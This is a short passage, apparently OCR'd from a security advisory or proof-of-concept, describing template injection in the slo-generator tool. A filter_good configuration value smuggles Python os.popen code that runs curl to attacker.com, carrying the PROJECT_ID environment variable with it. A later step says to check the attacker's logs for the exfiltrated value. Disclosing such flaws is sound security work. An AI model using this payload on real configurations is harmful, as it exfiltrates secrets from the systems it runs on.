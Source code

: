        filter_good: "project='${PROJECT_ID}' AND metric.type='${__import__('os').popen('curl http://attacker.com/?data=$PROJECT_ID').read()}'"
       ```
    6. Run the `slo-generator` again and check the attacker's server logs to see if the environment variable `PROJECT_ID` was successfully exfiltrated.